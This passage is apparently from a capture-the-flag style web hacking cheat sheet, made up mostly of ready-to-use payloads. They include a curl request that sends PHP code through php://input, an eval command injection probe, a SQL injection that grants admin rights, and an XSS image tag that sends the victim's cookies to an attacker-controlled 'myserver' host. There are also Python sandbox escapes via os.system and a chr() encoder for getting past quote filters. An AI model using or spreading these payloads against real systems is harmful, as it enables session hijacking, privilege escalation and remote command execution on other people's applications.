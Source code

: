 * `$ curl -d "<?=system('ls .')" -X POST http://URL/?magic=php://input`
        Send a arbitrary payload through a post request

* `Big payload size`
        This will often lead to a 500 internal error message, and might sometimes reveal information about the application and/or webserver.

* `?exec=5*5`
        If it returns *25* we have  `command injection`.
        Backend is probably running: `eval($_GET['exec'])`

### SQL Injections
* If we have a MySQL query like this:

    ```mysql
    "INSERT INTO users(username,password,admin) VALUES ('" . $username . "','" . $password . "',false);"
    ```
    
    the possibile MySQL injection is:
    
    ```mysql
    admin','admin',true)#
    ```
* TODO 
#### Form data

* `Hidden form field` - If you find something like this, throw everything you got at the debug parameter, this is often a simple command injection.
    ```html
    <input type="hidden" name ="debug" />
    ```

#### Textbox

* If the textbox is unfiltered (meaning you can put HTML tags inside it), you may be able to do some cookie hijaking through XSS with some code like this:
    ```html
    <img src=x onerror=this.src='http://myserver/?c='+document.cookie>
    ```

#### Python sandbox escape

(This section is incomplete)

* `locals()`
* `dir()`
* `input()` - In python 2, this is basically eval()

* `__import__("os").system("ls .")`


* Single quote and double quotes blocked? Use only numbers and parentheses.
        ```python
        def convertstr(payload):
            output = ""
            for i in payload:
                output+= "chr(%d)+" % ord(i)
            return output[:-1]
        ```
